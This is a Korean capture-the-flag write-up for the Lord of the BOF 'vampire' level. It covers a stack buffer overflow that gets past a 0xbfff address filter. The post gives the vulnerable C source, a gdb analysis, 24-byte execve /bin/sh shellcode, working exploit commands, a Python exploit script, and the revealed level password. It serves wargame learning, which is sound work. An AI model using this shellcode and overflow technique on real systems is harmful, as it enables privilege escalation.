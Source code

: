 ```yaml
---
title: "[LOB]Level09. vampire"
tags: [LOB, writeup]
author: eli_ez3r
key: 20180829
modify_date: 2019-11-13
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png
---
```


[Check 0xBFFF](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

    // here is changed!
    if(argv[1][46] == '\xff')
    {
        printf("but it's not forever\n");
        exit(0);
    }

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

RET 주소의 2번째 값이 '\xff'이면 안된다..;;

그외에는 별거 없다.



스택에서 버프의 위치가 0xbfff 영역에 존재하기 때문에 필터링에 걸릴 수 밖에 없다.

따라서 argv[2]의 많은 값의 데이터를 넣어서 버퍼의 주소가 0xbfff영역을 벗어나게 만들어야 한다.



```
[troll@localhost troll]$ ./aampire `python -c 'print "\x90"*44+"\xff\xff\xbf\xbf"'` `python -c 'print "\x90"*70000'`

릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜
Segmentation fault (core dumped)
```

```
[troll@localhost troll]$ gdb -c core -q
Core was generated by `./aampire 릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜 릱릱릱릱릱릱릱릱릱릱'.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfffff in ?? ()
(gdb) x/4x $esp
0xbffeeb50:     0x00000000      0xbffeeb94      0xbffeeba4      0x40013868
```

argv[2]에 NULL값을 70000개 넣었더니 esp값이 0xbffexxxx 영역을 가리키고 있는 것을 확인하였다.



```
(gdb) x/100x $esp
=====================================(생략)================================
0xbffeec80:     0x00000000      0x38366900      0x2f2e0036      0x706d6161
0xbffeec90:     0x00657269      0x90909090      0x90909090      0x90909090
0xbffeeca0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffeecb0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffeecc0:     0xbfbfffff      0x90909000      0x90909090      0x90909090
0xbffeecd0:     0x90909090      0x90909090      0x90909090      0x90909090
(gdb)
```

그리고 실제 Shell Code가 올라가는 주소는 `0xbffeeca0` 근처 인것도 확인하였다.

-----

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```
[troll@localhost troll]$ ./vampire `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e \x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\xa0\xec\xfe\xbf"'` `python -c 'print "\x90"*70000'`
릱릱릱릱릱릱릱릱릱릱1픐h//shh/bin됥PS됣솻
                                         ?좎
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
bash$ my-pass
euid = 509
music world
```

-----

```python
import os
import struct

append = lambda x, y: x + y
p32 = lambda x: struct.pack("<I", x)

target = "/home/troll/vampire"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
shellcode_addr = 0xbffeeca0

payload1 = "\x90"*20
payload1 = append(payload1, shellcode)
payload1 = append(payload1, p32(shellcode_addr))

payload2 = "\x90"*70000

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload1, payload2))
else:
        os.waitpid(pid, 0)
```

-----

